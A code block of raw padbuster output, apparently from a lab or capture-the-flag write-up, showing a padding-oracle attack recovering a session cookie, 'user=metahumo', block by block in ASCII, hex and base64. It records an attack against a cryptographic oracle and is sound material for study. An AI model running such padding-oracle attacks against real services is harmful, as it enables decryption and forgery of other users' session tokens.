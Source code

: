 ```bash
*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	200	1388	N/A
2 **	255	200	15	N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (79/256) [Byte 8]
[+] Success: (114/256) [Byte 7]
[+] Success: (202/256) [Byte 6]
[+] Success: (243/256) [Byte 5]
[+] Success: (79/256) [Byte 4]
[+] Success: (29/256) [Byte 3]
[+] Success: (75/256) [Byte 2]
[+] Success: (76/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): 02adeca716e5910f
[+] Intermediate Bytes (HEX): bcb2e5b409358cb0
[+] Plain Text: user=met

Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361, <STDIN> line 1.
*** Starting Block 2 of 2 ***

[+] Success: (243/256) [Byte 8]
[+] Success: (112/256) [Byte 7]
[+] Success: (27/256) [Byte 6]
[+] Success: (131/256) [Byte 5]
[+] Success: (49/256) [Byte 4]
[+] Success: (97/256) [Byte 3]
[+] Success: (62/256) [Byte 2]
[+] Success: (149/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): 586b5f793d5ebeba
[+] Intermediate Bytes (HEX): 63c599ca79e6920c
[+] Plain Text: ahumo

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=metahumo

[+] Decrypted value (HEX): 757365723D6D65746168756D6F030303

[+] Decrypted value (Base64): dXNlcj1tZXRhaHVtbwMDAw==
```

